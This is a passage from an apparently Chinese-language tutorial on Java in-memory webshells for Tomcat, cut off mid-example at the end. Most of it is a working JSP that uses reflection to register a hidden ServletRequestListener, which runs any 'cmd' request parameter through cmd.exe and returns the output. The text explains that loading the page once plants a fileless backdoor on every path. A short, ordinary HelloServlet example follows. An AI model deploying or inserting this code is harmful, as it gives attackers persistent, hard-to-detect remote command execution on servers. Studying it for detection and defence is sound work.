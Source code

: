 ```plain
    public class MyListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    Field requestFiled = req.getClass().getDeclaredField("request");
                    requestFiled.setAccessible(true);
                    Request request = (Request) requestFiled.get(req);
                    request.getResponse().getWriter().write(out);
                } catch (Exception e) {}
            }
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {

        }
    }
%>

<%
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listener = new MyListener();
    context.addApplicationEventListener(listener);
%>
```

先访问listenMemshell.jsp生成内存马，然后访问任意路径，加上cmd参数即可命令执行

## 6\. Servlet

### 6.1 例子

创建HelloServlet类

```plain
package org.example.servlet;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

@WebServlet(value = "/hello", name = "hello")
public class HelloServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doGet(req, resp);
        System.out.println("doget");
    }

    @Override
```